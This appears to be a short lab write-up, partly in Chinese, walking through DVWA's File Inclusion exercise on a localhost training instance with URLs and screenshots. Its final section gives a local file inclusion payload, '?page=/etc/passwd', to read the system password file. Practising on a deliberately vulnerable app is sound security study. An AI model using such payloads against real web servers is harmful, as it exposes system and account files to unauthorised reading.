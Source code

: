 # DVWA File Inclusion

![DVWA_FileInclusion_1](DVWA_FileInclusion_1.png)
##  http://localhost:8080/vulnerabilities/fi/?page=include.php

![DVWA_FileInclusion_2](DVWA_FileInclusion_2.png)

## http://localhost:8080/vulnerabilities/fi/?page=file2.php
![DVWA_FileInclusion_3](DVWA_FileInclusion_3.png)

## http://localhost:8080/vulnerabilities/fi/?page=file2.php


![DVWA_FileInclusion_4](DVWA_FileInclusion_4.png)

## http://localhost:8080/vulnerabilities/fi/?page=file2.php
![DVWA_FileInclusion_5](DVWA_FileInclusion_5.png)


## 攻擊看看 
- 看看可不可以載入密碼檔?
- localhost:8080/vulnerabilities/fi/?page=/etc/passwd

![DVWA_FileInclusion_6](DVWA_FileInclusion_6.png)
